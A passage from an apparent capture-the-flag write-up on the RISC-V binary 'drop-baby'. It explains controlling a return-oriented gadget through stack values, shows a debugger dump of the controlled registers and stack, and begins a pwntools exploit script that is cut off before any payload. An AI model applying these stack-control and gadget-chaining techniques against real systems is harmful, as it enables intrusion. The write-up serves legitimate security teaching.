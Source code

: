 Here you can see that this gadget sets `ra` to an value on the stack which we control, and `a0` to `s0`. If we check the value of `s0` we can see that ...

```
──────────────────────────────────────────────────────────────────────────────────────────────── code:riscv:RISCV ────
      0x10f9e <do_b2+74>       j      0x10fa2 <do_b2+78>
      0x10fa0 <do_b2+76>       li     a5, 0
      0x10fa2 <do_b2+78>       mv     a0, a5
 →    0x10faa <do_b2+86>       ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x40800d90│+0x0000: 0x62616166  →  0x62616166    ← $sp
0x40800d94│+0x0004: 0x62616167  →  0x62616167
0x40800d98│+0x0008: 0x62616168  →  0x62616168
0x40800d9c│+0x000c: 0x62616169  →  0x62616169
0x40800da0│+0x0010: 0x6261616a  →  0x6261616a
0x40800da4│+0x0014: 0x6261616b  →  0x6261616b
0x40800da8│+0x0018: 0x6261616c  →  0x6261616c
0x40800dac│+0x001c: 0x6261616d  →  0x6261616d
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x10faa in do_b2 (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x10faa → do_b2(size=0x12c)
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $s0
$1 = (void *) 0x62616164
gef➤

```

... We control it!
Now we can directly jump to this gadget and set the value of `r0` to the address of `puts()` and `a0` to the value of `flag` by modifying the appropriate stack values

> **NOTE**: On the remote server, the stack is a little bit different due to the presence of environment variables. Therefore, the actual address of the flag changes by some offset. We can brute force the offset since we know that it is not large.

## Exploit script

```python
#!/usr/bin/env python3
#
# Usage: ./solve.py REMOTE
#

from pwn import *
import zlib
import os

exe = ELF("./drop-baby")
context.arch = "riscv"
context.bits = 32

# context.binary = exe

gdbscript = """
file drop-baby
target remote localhost:1234
"""
```